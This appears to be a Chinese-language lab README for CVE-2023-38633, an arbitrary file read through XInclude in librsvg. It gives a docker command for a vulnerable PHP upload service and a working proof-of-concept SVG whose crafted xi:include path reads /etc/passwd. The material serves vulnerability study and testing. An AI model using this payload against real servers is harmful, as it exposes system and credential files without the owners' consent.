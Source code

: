 # librsvg XInclude 文件包含漏洞（CVE-2023-38633）

librsvg是一个用于处理SVG图片的开源依赖库。

librsvg支持XML中的XInclude规范，可以用于加载外部内容。在librsvg 2.56.3版本以前，由于处理路径存在逻辑错误，导致攻击者可以传入一个恶意构造的SVG图片，进而读取到任意文件。

参考链接：

- <https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/>
- <https://gitlab.gnome.org/GNOME/librsvg/-/issues/996>

## 漏洞环境

执行如下命令启动一个PHP服务器，其中使用librsvg 2.50.7将用户上传的SVG图片转换成PNG图片并返回：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到上传页面。

## 漏洞复现

将路径嵌入到`<xi:include>`标签中，如下POC：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

上传这个SVG图片，即可查看到`/etc/passwd`已被成功读取并渲染进PNG图片中：

![](1.png)
